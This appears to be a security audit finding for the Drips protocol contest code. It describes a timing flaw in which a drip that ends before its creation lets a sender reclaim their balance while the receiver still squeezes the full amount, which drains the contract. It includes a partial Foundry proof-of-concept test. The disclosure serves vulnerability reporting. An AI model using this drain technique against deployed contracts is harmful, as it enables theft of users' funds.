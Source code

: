 By setting a receiver that the sender controls, the sender can drain an arbitrary asset from the contract.

### Proof of Concept

Let the cycle length be 10 seconds. By i-th second I mean the i-th second of the cycle.

At the 5th second, sender creates a drip that starts at 0th second and lasts for 2 seconds.

At the 6th second, sender removes this drip.

<https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L569>

Since the drip ends before it was created, the dripped amount is 0, so the sender can retrieve their full balance.

<https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L425-L430> 

<https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L490-L496>

Now the receiver squeezes from this drip. 

`SqueezeStartCap = \_currCycleStart() = 0th second, squeezeEndCap = 6th second`, so the receiver can still squeeze out the full amount even though the sender has withdrawn all of his balance.

Please add the following test to DripsHub.t.sol. It verifies that the sender has retrieved all of his assets but the receiver can still squeeze.

        function customSetDrips(
            uint256 forUser,
            uint128 balanceFrom,
            uint128 balanceTo,
            DripsReceiver[] memory newReceivers
        ) internal {
            int128 balanceDelta = int128(balanceTo) - int128(balanceFrom);
            DripsReceiver[] memory currReceivers = loadDrips(forUser);

            vm.prank(driver);
            int128 realBalanceDelta =
                dripsHub.setDrips(forUser, erc20, currReceivers, balanceDelta, newReceivers, 0, 0);
            
            storeDrips(forUser, newReceivers);

        }

        function testExploitSqueeze() public {
            skipToCycleEnd();
            // Start dripping
            DripsReceiver[] memory receivers = new DripsReceiver[](1);
            receivers[0] = DripsReceiver(
                receiver,
                DripsConfigImpl.create(0, uint160(1 * dripsHub.AMT_PER_SEC_MULTIPLIER()), uint32(block.timestamp), 2)
            );

            DripsHistory[] memory history = new DripsHistory[](2);

            uint256 balanceBefore = balance();
            skip(5);
            customSetDrips(user, 0, 2, receivers);
            (,, uint32 lastUpdate,, uint32 maxEnd) = dripsHub.dripsState(user, erc20);
            history[0] = DripsHistory(0, receivers, lastUpdate, maxEnd);
